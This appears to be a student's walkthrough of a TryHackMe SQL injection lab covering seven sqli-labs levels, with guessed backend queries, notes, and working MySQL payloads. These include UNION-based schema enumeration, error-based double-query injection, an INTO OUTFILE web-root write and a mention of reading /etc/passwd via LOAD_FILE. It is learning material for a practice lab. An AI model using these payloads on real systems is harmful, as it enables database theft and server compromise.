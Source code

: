 #SQLi Lab (tryhackme)
##Database Server -> MySQL

#LEVEL 1 (GET - Error based - Single quotes - String)
Potential backend query
```
SELECT * FROM <users> WHERE id = '$id' LIMIT 0,1
```

Notes
```
"String injection" first is checked by using (') or (") closing the string for where syntax

If error message pop out, it will give us some more information for us to use, like a guide. Something like SQL syntax error, or SELECT statements have different number of columns
```

Injection
```
' UNION SELECT 1, 2, 3-- -

' UNION SELECT 1, schema_name, 3 FROM information_schema.schemata LIMIT <offset>,1-- -
```
---

#Level 2 (GET - Error based - Integer based)
Potential backend query
```
SELECT * FROM <users> WHERE id=$id LIMIT 0,1
```

Notes
```
"Integer injection" means there is no string quotes for the input

We can just append what we want behind it

Why use 0 as the id value? because we don't want the first SELECT syntax give out an output so that our SELECT syntax give out output instead
```

Injection
```
0 UNION SELECT 1,2,3

0 UNION SELECT 1, schema_name,3 FROM information_schema.schemata LIMIT <offset>,1-- -
```
---

#LEVEL 3 (GET - Error based - Single quotes with a twist - String)
Potential backend query
```
SELECT * FROM <users> WHERE id=('$id') LIMIT 0,1
```

Notes
```
Checking id=1' like basic "string injection" give us SQL syntax error which stated

**You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1**
```

Injection
```
') UNION SELECT 1, 2, 3-- -

') UNION SELECT 1, schema_name, 3 FROM information_schema.schemata LIMIT 1,1-- -
```
---

#LEVEL 4 (GET - Error based - Double Quotes - String)
Potential backend query
```
SELECT * FROM <users> WHERE id=("$id") LIMIT 0,1
```

Notes
```
As I said before, we could check SQLi by using (') or ("), now we just use the latter
```

Injection
```
") UNION SELECT 1, 2, 3 -- -

") UNION SELECT 1, schema_name, 3 FROM information_schema.schemata LIMIT 1,1-- -
```
---

#LEVEL 5 (GET - Double injection - Single quotes - String)
Potential backend query
```
$statement = "SELECT * FROM <users> WHERE id='$id' LIMIT 0,1";
$result = $connection->query($statement);
if($result->num_rows != 0){
	echo "You are in...........";
}
else{
	print_r($conn->error);
}
```

Notes
```
Useless output when it return true, else error... somehow we need to get what we want by the error

COUNT(*) -> count up all the column from GROUP BY tmp table

FLOOR() -> round down
RAND() -> get random number between 0,1

Subquery -> select inside select

This injection happen because of duplicate value of the tmp table from the GROUP BY syntax, because we randomize the value selected in the group by, it might get confused and give out duplicate value error
```

|COUNT(\*)|a|
|:---:|:---:|
|6|0|
|9|1|
|?(Error)|1(Duplicate)|


Injection
```
1' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT schema_name FROM information_schema.schemata LIMIT <offset>,1),'+', FLOOR(RAND()*2))a FROM <TABLE> GROUP BY a)b)-- -
```

Reference : [Double Query Injection by Sudharshan Kumar](https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c)
---

#LEVEL 6 (GET - Double injection - Double quotes - String)
Potential backend query
```
$statement = 'SELECT * FROM <users> WHERE id="$id" LIMIT 0,1';
$result = $connection->query($statement);
if($result->num_rows != 0){
	echo "You are in...........";
}
else{
	print_r($conn->error);
}
```

Notes
```
Same principal as before, just change the quote (') to double quote (")
```

Injection
```
1" AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT schema_name FROM information_schema.schemata LIMIT <offset>,1),"+", FLOOR(RAND()*2))a FROM <TABLE> GROUP BY a)b)-- -
```
---

#LEVEL 7
Potential backend query
```
SELECT * FROM <users> WHERE id=(('$id')) LIMIT 0,1
```

Notes
```
INTO OUTFILE is a mysql syntax to save an output into a file, after saving it into a file we could possibly open it from the webserver just by 'looking for it'
```

Injection
```
1')) UNION SELECT 1,2,3 INTO OUTFILE ('/var/ww/html/sqli-labs/Less-7/test.txt')-- -

^
this should work :<
you can even LOAD_FILE('/etc/passwd'), but somehow in this room we can't ._.

```
